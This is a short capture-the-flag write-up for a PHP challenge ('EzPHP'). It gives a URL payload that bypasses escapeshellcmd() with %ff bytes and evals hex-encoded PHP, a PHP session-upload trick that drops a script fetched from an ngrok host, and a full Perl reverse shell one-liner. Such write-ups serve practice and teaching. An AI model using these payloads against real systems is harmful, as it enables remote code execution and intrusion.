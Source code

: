 ## Target

bypass escapeshellcmd() and filter to get RCE

## Method 1 : One-Liner Payload 

bypass escapeshellcmd() by %ff character
```
http://34.142.236.192:8091/?cmd=p%ffhp+-r+ev%ffal(s%ffubst%ffr(hex2bin(aa24636f6e6e203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2022646f636b65724578616d706c6522293b0a24726573203d2024636f6e6e2d3e7175657279282273656c656374202a2066726f6d205468655f7461626c655f796f755f646f6e745f6b6e6f7722293b0a7768696c652824726f77203d20247265732d3e66657463685f6173736f63282929207b0a202020207072696e745f722824726f77293b0a7d),1))%3b
```

by @fredd#8512

## Method 1 : God Solution 

For EzPHP

1.Abuse PHP sessions to drop file onto system. Example
```
curl http://34.142.236.192:8091/ -H 'Cookie: PHPSESSID=yeet1' -F $'PHP_SESSION_UPLOAD_PROGRESS=& curl http://0.tcp.au.ngrok.io:11712/rs.sh -o /tmp/rs.sh&&sd\nasdasd'  -F 'file=@/dev/urandom'
```

2.Execute by http://34.142.236.192:8091/?cmd=sh%20/tmp/sess_yeet1
Reverse shell http://34.142.236.192:8091/?cmd=sh%20/tmp/rs.sh. Reverse shell payload
```
perl -e 'use Socket;$i="0.tcp.au.ngrok.io";$p=11712;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

3.Once on drop mysql bins onto the system .
```
curl https://cdn.mysql.com//Downloads/MySQL-8.1/mysql-8.1.0-linux-glibc2.28-x86_64.tar.xz -o mysql.tar.xz
```

4.get flag from the other table (will send in a bit)


by @ghostccamm 
